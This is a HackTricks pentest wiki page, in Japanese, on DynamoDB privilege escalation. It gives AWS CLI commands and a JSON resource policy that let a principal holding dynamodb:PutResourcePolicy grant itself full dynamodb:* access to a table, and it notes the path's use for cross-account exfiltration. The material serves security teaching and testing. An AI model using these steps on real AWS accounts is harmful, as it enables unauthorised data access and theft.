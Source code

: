 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

dynamodb の詳細は以下を参照してください:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`、必要に応じて `dynamodb:GetResourcePolicy`

2024年3月以降、AWSはDynamoDB向けに*resource based policies*を提供しています（[AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)）。

つまり、テーブルに対して `dynamodb:PutResourcePolicy` を持っていれば、自分自身や他の任意のプリンシパルにテーブルへのフルアクセスを付与できます。

ランダムなプリンシパルに `dynamodb:PutResourcePolicy` を付与してしまうのはしばしば誤って起こります。管理者が `dynamodb:Put*` を付与するとそのプリンシパルはデータベースにアイテムをputするだけだと考えたり、あるいは2024年3月以前にその権限セットを付与していた場合などです...

理想的には、`dynamodb:GetResourcePolicy` も持っていると、他の重要な権限を上書きせずに、必要な追加権限だけを挿入できます:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
現在のポリシーを取得できない場合は、プリンシパルに対してテーブルへの完全なアクセスを許可する以下のポリシーを使用してください:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
カスタマイズが必要な場合、可能なすべての DynamoDB アクションの一覧はこちら: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)。また、resource based policy を介して許可できるすべてのアクションと *AND which of these can be used cross-account (think data exfiltration!)* の一覧はこちら: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

policy document `policy.json` が準備できたら、resource policy を設定します:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
これで必要な権限が揃っているはずです。

### Post Exploitation

私の知る限り、**AWSの`dynamodb`に対するいくつかの権限を持っているだけで特権を直接昇格させる他の方法はありません**。テーブルから**機密情報を読み取ること**（それにはAWSの認証情報が含まれている可能性があります）やテーブルに**情報を書き込むこと**（lambda code injections... のような他の脆弱性を引き起こす可能性があります）は可能ですが、これらのオプションはすべて既に**DynamoDB Post Exploitation page**で検討されています：

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: data Streams を悪用してデータを読み取る

{{#include ../../../../banners/hacktricks-training.md}}
